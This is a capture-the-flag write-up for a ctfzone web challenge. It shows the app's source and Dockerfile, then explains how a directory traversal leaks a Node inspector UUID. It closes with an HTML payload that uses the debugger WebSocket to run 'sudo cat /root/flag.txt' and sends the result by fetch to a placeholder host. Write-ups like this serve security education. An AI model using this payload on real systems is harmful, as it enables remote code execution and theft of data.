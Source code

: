 > We started the development of a new task but havent completed it yet. The debug version works on the site. We believe there is no way to get the flag now, but you can try!
---

App.js source code:

```js
const http = require('http');
const static = require('node-static');
const url_lib = require('url');
const puppeteer = require('puppeteer');
const { Worker } = require('worker_threads')

const hostname = '0.0.0.0';
const port = 3000;
var file = new static.Server('./app');


function verifyUrl(data) {
  if (!("url" in data))
    return false
  let url = data["url"].toString().trim();
  if (typeof url !== 'string' || (!url.startsWith('http://') && !url.startsWith('https://'))) {
    return false;
  }
  return url
}

const server = http.createServer((req, res) => {
  
  const url = req.url;
  const method = req.method;

  if(url.startsWith("/browser") && method === "GET")
  {
    let query = url_lib.parse(req.url,true).query;
    let site_url = verifyUrl(query);
    if (site_url === false)
    {
      res.statusCode = 400;
      res.setHeader('Content-Type', 'text/plain');
      res.end("Invalid url");
    }
    else
    {
      console.log('Visiting', site_url);
      try {
        const worker = new Worker('./worker.js',{workerData: site_url});
        worker.onerror = (event) => {
          console.log(event);
        };
        res.statusCode = 200;
        res.setHeader('Content-Type', 'text/plain');
        res.end(site_url);

      } catch (error) {
        console.error(error);
        res.statusCode = 400;
        res.setHeader('Content-Type', 'text/plain');
        res.end('Error');
      }

    }
  } 
  else
  {
    req.addListener('end', function () {
      file.serve(req, res);
    }).resume();
  }
  
});

server.listen(port, hostname, () => {
  console.log(`Server running at http://${hostname}:${port}/`);
});
```

Worker.js source code:

```js
const { workerData, parentPort } = require('worker_threads')
const puppeteer = require('puppeteer');

const puppeter_args = {
    headless: "new",
    args: [
      '--headless=new',
      '--block-new-web-contents',
      '--disable-popup-blocking=false',
      '--no-sandbox'
    ]
  };

function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
  }

async function visitUrl(site_url)
  {
    try {
      const browser = await puppeteer.launch(puppeter_args);
      const context = await browser.createIncognitoBrowserContext();
      const page = await context.newPage();
      await page.goto(site_url);
      await sleep(5000);
      await context.close();
    } catch (error) {
      console.log(error);
    }

  }

console.log('Worker url:' + workerData);
visitUrl(workerData)
```

Dockerfile:

```dockerfile
FROM node:20

RUN apt update
RUN apt -y install libnss3-dev libgdk-pixbuf2.0-dev libgtk-3-dev libxss-dev libasound2 sudo

RUN useradd -rm -d /home/ubuntu -s /bin/bash -u 1001 ubuntu
RUN chown ubuntu /home/ubuntu

RUN echo "ctfzone{REDACTED}" > /root/flag.txt
RUN echo "ubuntu ALL = (root) NOPASSWD: /bin/cat /root/flag.txt" >> /etc/sudoers

USER ubuntu
WORKDIR /home/ubuntu
COPY package.json ./
RUN npm install
RUN mkdir app
COPY app/ app/
COPY worker.js ./worker.js
COPY app.js ./app.js

EXPOSE 3000
CMD ["bash","-c","node --inspect app.js  1>app-logs.out 2>app-logs.err"]
```

Looking at the source code we realize that a GET request to /browser with the **url** parameter is accepted. The passed value should start with http:// or https://. Then the link is followed by the puppeteer module. It is logical to guess that you need to execute some JS code on the client side. Also in Dockerfile we note that with sudo we can read the flag, STDOUT is written to app-logs.out, STDERR is written to app-logs.err. 

We start the container and see what is written to the logs. In app-logs.err we see that information about the debugger is written:

```
Debugger listening on ws://127.0.0.1:9229/353bf166-237f-41c2-903f-c2e93c1eefa5
For help, see: https://nodejs.org/en/docs/inspector
```

At [link](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse) find examples of code execution with the help of debugger, save it for yourself.

Each time the debugger is run, a unique UUID is generated, we need to find it out somehow. Let's see what is in package.json:

```json
{
  "dependencies": {
    "node-static": "0.7.11",
    "puppeteer": "20.7.3",
    "react-cyber-elements": "^1.0.2"
  }
}
```

Let's google vulnerabilities for these dependencies. We find the [Directory Traversal](https://security.snyk.io/vuln/SNYK-JS-NODESTATIC-3149928) vulnerability. Using this vulnerability we read app-logs.err on the server. Then we just make a simple HTTP server that returns the following JS code:

```html
<script type="text/javascript">
        const ws = new WebSocket(
            'ws://127.0.0.1:9229/UUID'
        );
        ws.onmessage = function (event) {
            fetch(`http://x.x.x.x:8080/?flag=${event.data}`);
        };
        ws.addEventListener("open", () => {
            ws.send(JSON.stringify({ id: 0, method: 'Runtime.evaluate', params: {expression: `process.mainModule.require('child_process').execSync('sudo cat /root/flag.txt') + ''`} }));
            fetch(`http://x.x.x.x:8080/test`);
        });
</script>
```

We get a flag in the server logs!

---
> Flag: **ctfzone{d3bug_m0d3_1s_c00l_f0r_CTF}**
> [Python HTTP Server](simple_http.py)
